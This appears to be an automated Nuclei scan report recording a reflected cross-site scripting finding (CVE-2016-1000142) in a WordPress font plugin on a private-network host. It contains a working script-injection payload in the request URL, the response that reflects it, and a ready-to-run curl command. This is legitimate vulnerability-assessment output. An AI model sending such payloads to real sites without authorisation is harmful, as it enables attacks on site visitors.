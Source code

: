 ### MW Font Changer <= 4.2.5 - Unauthenticated Reflected Cross-Site Scripting (XSS) (CVE-2016-1000142) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2016-1000142**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/parsi-font/css.php?size=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:05 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | MW Font Changer <= 4.2.5 - Unauthenticated Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | cve, cve2016, wordpress, wp-plugin, xss |
| Severity | medium |
| Description | The MW Font Changer WordPress plugin was affected by an Unauthenticated Reflected Cross-Site Scripting (XSS) security vulnerability. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2016-1000142](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-1000142) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/parsi-font/css.php?size=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.93 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 233
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/parsi-font/css.php?size=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://wpscan.com/vulnerability/4ff5d65a-ba61-439d-ab7f-745a0648fccc
- https://nvd.nist.gov/vuln/detail/cve-2016-1000142
- http://www.vapidlabs.com/wp/wp_advisory.php?v=435
- https://wordpress.org/plugins/parsi-font

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.93 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/parsi-font/css.php?size=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)